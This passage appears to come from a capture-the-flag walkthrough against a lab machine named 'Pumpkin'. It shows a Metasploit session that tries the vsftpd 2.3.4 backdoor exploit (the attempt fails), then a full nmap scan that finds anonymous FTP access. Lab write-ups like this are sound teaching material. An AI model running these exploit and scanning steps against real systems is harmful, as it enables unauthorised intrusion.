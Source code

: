 ```
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


msf5 > use exploit/unix/ftp/vsftpd_234_backdoor 
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.1.185
RHOST => 192.168.1.185
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.1.185    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.1.185:21 - Banner: 220 Welcome to Pumpkin's FTP service.
[*] 192.168.1.185:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

&nbsp;&nbsp;&nbsp;&nbsp;That didn't work, maybe I can try hitting other open ports.

```
nmap -p- -A 192.168.1.185                                                                                   [00:32:26]
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-20 00:32 CST
Nmap scan report for Pumpkin (192.168.1.185)
Host is up (0.000073s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              88 Jun 13  2019 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.1.117
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.2 - secure, fast, stable
```